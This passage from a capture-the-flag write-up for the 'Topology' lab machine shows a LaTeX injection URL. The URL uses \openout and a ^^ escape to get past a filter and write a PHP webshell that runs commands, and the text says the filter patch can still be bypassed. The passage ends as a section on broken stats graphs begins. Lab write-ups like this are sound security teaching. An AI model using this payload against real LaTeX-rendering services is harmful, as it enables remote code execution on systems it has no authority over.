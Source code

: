     
    
    http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php%20system($_REQUEST[%27cmd%27]);%20?%3E}\closeout\outfile
    

On reloading, `cmd.php` is there:

![image-20231102170344705](../img/image-20231102170344705.png)

And using it as a webshell works for execution:

![image-20231102170405993](../img/image-20231102170405993.png)

There was a patch after the initial release of this box as shown in [this
changelog](https://app.hackthebox.com/machines/Topology/changelog):

![image-20231102170451593](../img/image-20231102170451593.png)

I believe the original person to root solved by writing a webshell with
`\write` (or a similar method like `\begin{filecontent*}{shell.php}`) and the
patch was increasing the filter. But even that is bypassable using `^^`.

## Beyond Root - Broken Graphs

### Background

I noted during enumeration that the timestamps for the images on the
`stats.topology.htb` website were updating every minute. It really bugged me
that one of the two images was returning empty. I’m going to figure out what’s
going on.
